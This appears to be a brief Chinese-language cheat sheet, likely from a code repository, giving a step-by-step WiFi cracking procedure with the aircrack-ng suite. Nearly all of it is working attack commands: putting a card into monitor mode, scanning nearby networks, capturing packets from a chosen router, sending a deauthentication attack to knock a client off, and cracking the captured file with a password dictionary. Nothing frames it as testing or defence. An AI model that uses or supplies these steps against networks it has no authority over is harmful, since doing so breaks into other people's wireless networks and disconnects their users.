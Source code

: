 * 1. 准备
** ifconfig -a ;;查看所有网卡信息
** ifconfig wlan0 up ;;激活无线网卡
** iwconfig ;;查看无线信息

* 2. 监听
** airmon-ng start wlan0 ;;监听无线网卡
** iwconfig ;;查看无线网卡名称

* 3. 扫描
** airodump-ng wlan0mon ;;扫描周围WIFI信息

* 4. 抓包
** airodump-ng --ivs --bssid 路由器BSSID(mac) -w 数据包目标文件 -c WIFI频道 wlan0mon
*** --ivs 过滤数据包

* 5. 攻击
** aireplay-ng -0 1 -a 路由器MAC -c 客户端MAC wlan0mon
*** -0 攻击模式
*** 1 攻击次数

* 6. 破解
** aircrack-ng -w 强大的字典 抓取的数据包文件

* 7. 关闭网卡监听
** airmon-ng stop wlan0mon


